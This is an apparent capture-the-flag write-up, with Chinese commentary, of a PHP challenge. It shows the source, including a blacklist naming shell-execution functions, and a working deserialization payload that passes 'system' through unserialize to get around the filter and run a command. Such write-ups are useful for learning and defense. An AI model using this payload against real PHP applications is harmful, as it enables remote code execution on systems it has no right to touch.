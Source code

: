 ```php
    $disable_fun = array("exec","shell_exec","system","passthru","proc_open","show_source","phpinfo","popen","dl","eval","proc_terminate","touch","escapeshellcmd","escapeshellarg","assert","substr_replace","call_user_func_array","call_user_func","array_filter", "array_walk",  "array_map","registregister_shutdown_function","register_tick_function","filter_var", "filter_var_array", "uasort", "uksort", "array_reduce","array_walk", "array_walk_recursive","pcntl_exec","fopen","fwrite","file_put_contents");
    function gettime($func, $p) {
        $result = call_user_func($func, $p);
        $a= gettype($result);
        if ($a == "string") {
            return $result;
        } else {return "";}
    }
    class Test {
        var $p = "Y-m-d h:i:s a";
        var $func = "date";
        function __destruct() {
            if ($this->func != "") {
                echo gettime($this->func, $this->p);
            }
        }
    }
    $func = $_REQUEST["func"];
    $p = $_REQUEST["p"];

    if ($func != null) {
        $func = strtolower($func);
        if (!in_array($func,$disable_fun)) {
            echo gettime($func, $p);
        }else {
            die("Hacker...");
        }
    }
    ?>
</p>
<form  id=form1 name=form1 action="index.php" method=post>
    <input type=hidden id=func name=func value='date'>
    <input type=hidden id=p name=p value='Y-m-d h:i:s a'>
</body>
</html>
```

果然过滤了很多函数，但是有趣的是他定义了一个类，而且过滤不是在**gettime**里执行的
是另外的一个if里面执行的，而这个类也会用到这个函数**gettime**
很明显就是一个反序列化了

```php
<?php
class Test {
        var $p = 'ls';
        var $func = "system";
        
    }
echo serialize(new Test());
O:4:"Test":2:{s:1:"p";s:2:"ls";s:4:"func";s:6:"system";}
func=unserialize&p=O:4:"Test":2:{s:1:"p";s:2:"ls";s:4:"func";s:6:"system";}
成功回显
```

